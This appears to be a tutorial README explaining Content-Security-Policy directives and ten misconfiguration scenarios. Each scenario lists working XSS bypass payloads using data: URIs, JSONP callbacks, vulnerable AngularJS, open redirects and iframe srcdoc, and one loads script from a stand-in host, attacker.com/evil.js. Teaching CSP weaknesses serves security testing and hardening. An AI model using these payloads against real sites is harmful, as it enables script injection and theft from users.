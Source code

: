 # Content-Security-Policy-CSP-Bypass-Techniques
Content-Security-Policy (CSP) Bypass Techniques

# What is a CSP ?
CSP stands for Content Security Policy which is a mechanism to define which resources can be fetched out or executed by a web page. In other words, it can be understood as a policy that decides which scripts, images, iframes can be called or executed on a particular page from different locations. Content Security Policy is implemented via response headers or meta elements of the HTML page. From there, it’s browser’s call to follow that policy and actively block violations as they are detected.

# Why it is used?
Content Security Policy is widely used to secure web applications against content injection like cross-site scripting attacks. Also by using CSP the server can specify which protocols are allowed to be used. Can we think CSP as mitigation of XSS? The answer is no! CSP is an extra layer of security against content injection attacks. The first line of defense is output encoding and input validation always. A successful CSP implementation not only secures a web page against these vulnerabilities but also gives a wide range of attack details that were unsuccessful i.e. blocked by CSP itself. Web admin can be benefitted using this feature to spot a potential bug.


# How does it work?
CSP works by restricting the origins that active and passive content can be loaded from. It can additionally restrict certain aspects of active content such as the execution of inline JavaScript, and the use of eval().

If you are a developer you will require to define all allowed origins for every type of resource your website utilizes. Suppose you are the owner of a website abc.com and these websites loads multiple resources like scripts, images, css from localhost, and different sources as well, say allowed.com. A very basic policy would be :

# Implemented via Response Header:

```Content-Security-policy: default-src 'self'; script-src 'self' allowed.com; img-src 'self' allowed.com; style-src 'self';```

# Implemented via meta tag:

```<meta http-equiv="Content-Security-Policy" content="default-src 'self'; img-src https://*; child-src 'none';">```

Now you may have a question that what are **default-src**,**img-src**, **style-src** and **script-src** . These are directives of CSP. Using directives only content policy can be properly implemented. Below is the list of some common CSP directives:

**script-src** : This directive specifies allowed sources for JavaScript. This includes not only URLs loaded directly into <script> elements, but also things like inline script event handlers (onclick) and XSLT stylesheets which can trigger script execution.

**default-src**: This directive defines the policy for fetching resources by default. When fetch directives are absent in CSP header the browser follows this directive by default.

**Child-src**: This directive defines allowed resources for web workers and embedded frame contents.

**connect-src**: This directive restricts URLs to load using interfaces like <a>,fetch,websocket,XMLHttpRequest

**frame-src**: This directive restricts URLs to which frames can be called out.

**frame-ancestors**: This directive specifies the sources that can embed the current page. This directive applies to <frame>, <iframe>, <embed>, and <applet> tags. This directive can't be used in <meta> tags and applies only to non-HTML resources.

**img-src**: It defines allowed sources to load images on the web page.

**Manifest-src**: This directive defines allowed sources of application manifest files.

**media-src**: It defines allowed sources from where media objects like <audio>,<video> and <track> can be loaded.

**object-src**: It defines allowed sources for the <object>,<embed> and <applet> elements.

**base-uri**: It defines allowed URLs which can be loaded using <base> element.

**form-action**: This directive lists valid endpoints for submission from <form> tags.

**plugin-types**: It defineslimits the kinds of mime types a page may invoke.

**upgrade-insecure-requests**: This directive instructs browsers to rewrite URL schemes, changing HTTP to HTTPS. This directive can be useful for websites with large numbers of old URL's that need to be rewritten.

**sandbox**: sandbox directive enables a sandbox for the requested resource similar to the <iframe> sandbox attribute. It applies restrictions to a page's actions including preventing popups, preventing the execution of plugins and scripts, and enforcing a same-origin policy.
Sources: Sources are nothing but the defined directives values. Below are some common sources that are used to define the value of the above directives.
   * : This allows any URL except data: blob: filesystem: schemes
self : This source defines that loading of resources on the page is  allowed from the same domain.
data: This source allows loading resources via the data scheme (eg Base64 encoded images)
none: This directive allows nothing to be loaded from any source.
unsafe-eval : This allows the use of eval() and similar methods for creating code from strings. This is not a safe practice to include this source in any directive. For the same reason it is named as unsafe. 
unsafe-hashes: This allows to enable specific inline event handlers.
unsafe-inline: This allows the use of inline resources, such as inline <script> elements, javascript: URLs, inline event handlers, and inline <style> elements. Again this is not recommended for security reasons.
nonce: A whitelist for specific inline scripts using a cryptographic nonce (number used once). The server must generate a unique nonce value each time it transmits a policy.
Let's take an example of a CSP in a webpage https://www.bhaveshthakur.com and see how it works:
Content-Security-Policy: default-src 'self'; script-src https://bhaveshthakur.com; report-uri /Report-parsing-url;
<img src=image.jpg> This image will be allowed as image is loading from same domain i.e. bhaveshthakur.com
<script src=script.js> This script will be allowed as the script is loading from the same domain i.e. bhaveshthakur.com
<script src=https://evil.com/script.js> This script will not-allowed as the script is trying to load from undefined domain i.e. evil.com
"/><script>alert(1337)</script> This will not-allowed on the page. 
But why? Because inline-src is set to self. But Wait! where the hell it is mentioned? I can't see inline-src defined in above CSP at all.
The answer is have you noticed default-src 'self'? So even other directives are not defined but they will be following default-src directive value only. Below is the list of directives which will follow default-src value even though they are not defined in the policy:
child-src connect-src font-src frame-src img-src manifest-src
media-src object-src prefetch-src script-src script-src-elem
script-src-attr style-src style-src-elem style-src-attr worker-src
We have a fair understanding of content security policy directives and its resources. There is one more important thing we need to know. Whenever CSP restricts any invalid source to load data it can report about the incident to website administrators if below directive is defined in the policy:
Content-Security-Policy: default-src 'self'; img-src https://*; child-src 'none'; report-uri /Report-parsing-url;
Administrators can track which kind of attack scripts or techniques are used by attackers to load malicious content from untrusted resources. Now, let's move to the interesting part Bypassing Techniques:
Analyze the CSP policy properly. There are few online tools that are very helpful.
1. https://csp-evaluator.withgoogle.com/
2. https://cspvalidator.org/
Below is the screenshot of how they evaluate and provide you results.
Image for post
Scenario : 1
Content-Security-Policy: script-src https://facebook.com https://google.com 'unsafe-inline' https://*; child-src 'none'; report-uri /Report-parsing-url;
By observing this policy we can say it's damn vulnerable and will allow inline scripting as well . The reason behind that is the usage of unsafe-inline source as a value of script-src directive.
working payload : "/><script>alert(1337);</script>
Scenario : 2
Content-Security-Policy: script-src https://facebook.com https://google.com 'unsafe-eval' data: http://*; child-src 'none'; report-uri /Report-parsing-url;
Again this is a misconfigured CSP policy due to usage of unsafe-eval.
working payload : 
<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>
Scenario : 3
Content-Security-Policy: script-src 'self' https://facebook.com https://google.com https: data *; child-src 'none'; report-uri /Report-parsing-url;
Again this is a misconfigured CSP policy due to usage of a wildcard in script-src.
working payloads :
"/>'><script src=https://attacker.com/evil.js></script>
"/>'><script src=data:text/javascript,alert(1337)></script>
Scenario: 4
Content-Security-Policy: script-src 'self' report-uri /Report-parsing-url;
Misconfigured CSP policy again! we can see object-src and default-src are missing here.
working payloads :
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
">'><object type="application/x-shockwave-flash" data='https: //ajax.googleapis.com/ajax/libs/yui/2.8.0 r4/build/charts/assets/charts.swf?allowedDomain=\"})))}catch(e) {alert(1337)}//'>
<param name="AllowScriptAccess" value="always"></object>
Scenario: 5
Content-Security-Policy: script-src 'self'; object-src 'none' ; report-uri /Report-parsing-url;
we can see object-src is set to none but yes this CSP can be bypassed too to perform XSS. How ? If the application allows users to upload any type of file to the host. An attacker can upload any malicious script and call within any tag.
working payloads :
"/>'><script src="/user_upload/mypic.png.js"></script>
Scenario : 6
Content-Security-Policy: script-src 'self' https://www.google.com; object-src 'none' ; report-uri /Report-parsing-url;
In such scenarios where script-src is set to self and a particular domain which is whitelisted, it can be bypassed using jsonp. jsonp endpoints allow insecure callback methods which allow an attacker to perform xss.
working payload :
"><script src="https://www.google.com/complete/search?client=chrome&q=hello&callback=alert#1"></script>
Scenario : 7
Content-Security-Policy: script-src 'self' https://cdnjs.cloudflare.com/; object-src 'none' ; report-uri /Report-parsing-url;
In such scenarios where script-src is set to self and a javascript library domain which is whitelisted. It can be bypassed using any vulnerable version of javascript file from that library , which allows the attacker to perform xss.
working payloads :
<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>
 
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.8/angular.js" /></script>
 <div ng-app ng-csp>
  {{ x = $on.curry.call().eval("fetch('http://localhost/index.php').then(d => {})") }}
 </div>
"><script src="https://cdnjs.cloudflare.com/angular.min.js"></script> <div ng-app ng-csp>{{$eval.constructor('alert(1)')()}}</div>
"><script src="https://cdnjs.cloudflare.com/angularjs/1.1.3/angular.min.js"> </script>
<div ng-app ng-csp id=p ng-click=$event.view.alert(1337)>
Scenario : 8
Content-Security-Policy: script-src 'self' ajax.googleapis.com; object-src 'none' ;report-uri /Report-parsing-url;
If the application is using angular JS and scripts are loaded from a whitelisted domain. It is possible to bypass this CSP policy by calling callback functions and vulnerable class. For more details visit this awesome git repo.
working payloads :
ng-app"ng-csp ng-click=$event.view.alert(1337)><script src=//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js></script>
"><script src=//ajax.googleapis.com/ajax/services/feed/find?v=1.0%26callback=alert%26context=1337></script>
Scenario : 9
Content-Security-Policy: script-src 'self' accounts.google.com/random/ website.with.redirect.com ; object-src 'none' ; report-uri /Report-parsing-url;
In the above scenario, there are two whitelisted domains from where scripts can be loaded to the webpage. Now if one domain has any open redirect endpoint CSP can be bypassed easily. The reason behind that is an attacker can craft a payload using redirect domain targeting to other whitelisted domains having a jsonp endpoint. And in this scenario XSS will execute because while redirection browser only validated host, not the path parameters.
working payload :
">'><script src="https://website.with.redirect.com/redirect?url=https%3A//accounts.google.com/o/oauth2/revoke?callback=alert(1337)"></script>">
Scenario : 10
Content-Security-Policy: 
default-src 'self' data: *; connect-src 'self'; script-src  'self' ;
report-uri /_csp; upgrade-insecure-requests
THE above CSP policy can be bypassed using iframes. The condition is that application should allow iframes from the whitelisted domain. Now using a special attribute srcdoc of iframe, XSS can be easily achieved.
working payloads :
<iframe srcdoc='<script src="data:text/javascript,alert(document.domain)"></script>'></iframe>
* sometimes it can be achieved using defer& async attributes of script within iframe (most of the time in new browser due to SOP it fails but who knows when you are lucky?)
<iframe src='data:text/html,<script defer="true" src="data:text/javascript,document.body.innerText=/hello/"></script>'></iframe>
I hope you enjoyed reading this. Special thanks to @mikispag & @we1x for their contribution to Google Security research in the domain of Content Security Policy secure implementation.
Thank You!
For any feedback or suggestions reach out to me @Bhavesh_Thakur_
